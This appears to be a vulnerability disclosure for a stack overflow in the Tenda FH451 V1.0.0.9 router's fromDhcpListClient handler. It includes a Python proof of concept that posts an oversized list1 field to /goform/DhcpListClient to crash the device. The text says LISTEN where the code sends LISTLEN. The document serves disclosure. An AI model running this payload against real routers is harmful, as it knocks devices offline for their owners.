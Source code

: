 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9  has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.
![Vulnerability Function2](160030.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```
![Vulnerability Function2](155125.png)
]]